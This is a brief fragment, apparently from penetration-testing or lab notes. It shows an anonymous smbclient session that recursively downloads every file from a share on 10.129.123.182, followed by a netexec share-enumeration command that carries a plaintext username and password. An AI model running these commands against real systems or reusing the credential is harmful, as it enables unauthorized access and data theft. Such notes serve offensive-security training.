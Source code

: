 ``` # Recursive GET
smbclient -N \\\\10.129.123.182\\
mask ""
recurse ON
prompt OFF
mget *
```

```
netexec smb 10.129.123.182 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --shares
```